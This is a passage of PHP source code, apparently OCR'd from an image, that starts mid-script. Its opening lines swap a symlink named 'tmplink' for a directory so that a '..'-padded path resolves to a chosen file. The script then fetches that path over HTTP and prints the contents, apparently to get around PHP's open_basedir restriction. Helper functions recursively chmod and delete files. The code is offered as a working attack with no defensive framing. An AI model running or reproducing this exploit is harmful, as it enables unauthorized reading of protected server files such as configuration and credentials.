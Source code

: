 ````
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}
````